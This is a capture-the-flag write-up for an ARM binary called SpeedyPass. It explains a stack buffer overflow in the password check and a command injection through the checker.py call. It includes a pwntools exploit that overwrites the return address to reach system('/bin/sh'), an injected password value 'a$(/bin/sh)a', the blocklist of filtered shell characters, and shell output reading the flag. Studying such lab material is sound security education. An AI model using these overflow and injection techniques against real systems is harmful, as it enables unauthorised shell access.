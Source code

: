 # SpeedyPass

### System (ARM)

SpeedyPass is a simple password strength checking service. The challenge provides the [binary](speedypass_161d3241ce42317cbff2b0db5e89c0bb) for the application. The goal is to get a shell and read the flag.

![speedypass_1](speedypass_1.png)



The challenge was 32-bit ARM binary, so we load it up in IDA Pro.

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf((FILE *)_bss_start, 0);
  setbuf((FILE *)stdout, 0);
  banner();
  if ( check() )
  {
    puts("Good password!");
    win(1337);
  }
  else
  {
    puts("Bad password!");
  }
  return 0;
}
```

The `main` function looks pretty simple. Once it prints out the banner, the program checks for the password and prints corresponding messages. If a given password was a good password, it also calls `win` function with an argument of `1337`.

```c++
void __fastcall win(int a1)
{
  if ( a1 == 0x13333337 )
    system("/bin/sh");
  else
    puts("But not 1337 enough! :P");
}
```

The `win` function checks if the argument is same as `0x13333337` and if so, drops a shell. However, because the `win` function call from `main` function has `1337` hard-coded, which makes this impossible.

The `check` function prompts for a password and reads in the input. After some validation via `validate` function, the program invokes a command that runs `./checker.py` python script and passes in the password.

```c++
bool check()
{
  char s[64]; // [sp+4h] [bp-50h]
  ssize_t v2; // [sp+4Ch] [bp-8h]
  char v3[4]; // [sp+50h] [bp-4h]

  memset(s, 0, 64u);
  printf("password> ");
  v2 = read(0, s, 0x64u);
  if ( v2 && v3[v2 - 77] == '\n' )
    v3[v2 - 77] = 0;
  if ( tolower((unsigned __int8)s[0]) == 'q' && strlen(s) == 1 )
  {
    puts("Bye!");
    exit(0);
  }
  validate(s);
  snprintf(cmd, 0x800u, "./checker.py \"%s\"", s);
  return (system(cmd) & 0xFF00) >> 8 == 1;
}
```

The `validate` function takes a string and ensures the following:

* The first and last character of the string are alphanumeric.
* Any spaces are removed from the string.
* "Dangerous" characters and strings are blocked.
  * ``, ", \n, \r, |, #, ;, &, flag`

The python script checks for certain rules for the password.

```python
#!/usr/bin/env python
import sys
s = sys.argv[1]
# Palindrome check
xc = int(s == s[::-1])
# Length check
xc &= int(len(s) > 8)
# Unique character check
xc &= int(len(set(s)) > 1)
sys.exit(xc)
```



#### Vulnerability #1 (Stack Buffer Overflow)

There is a trivial stack buffer overflow in `check` function. The buffer size is only 64 bytes, but the program reads in 0x64 (100) bytes. By overflowing the buffer and eventually the return address, we can control the `pc`.

If we overwrite the `pc` with the address of the code right before the `system("/bin/sh")`in `win` function, we can get the shell.



![speedypass_2](speedypass_2.png)



```python
#!/usr/bin/env python
from pwn import *
r = remote('speedhack.theori.io', 14729)
r.sendline('A' * 80 + p32(0x106f4))
r.interactive()
```

```
$ cat flag
your_password_is_not_s3cure
```



#### Vulnerability #2 (Command Injection)

Various filtering and validation implies that there was an attempt at preventing command injection. When `./checker.py` is invoked, the argument is user-controllable. We can inject shell commands by using `$()`. By evading all filtered characters and strings, we can get a shell and eventually read the flag.

```
======= Speed Pass =======
 - Type Q to quit...
 - Length > 8
 - Contain >= 2 unique letters
==========================
password> a$(/bin/sh)a
ls >&2
checker.py
flag
run.sh
speedypass

cat flag >&2
your_password_is_not_s3cure
```

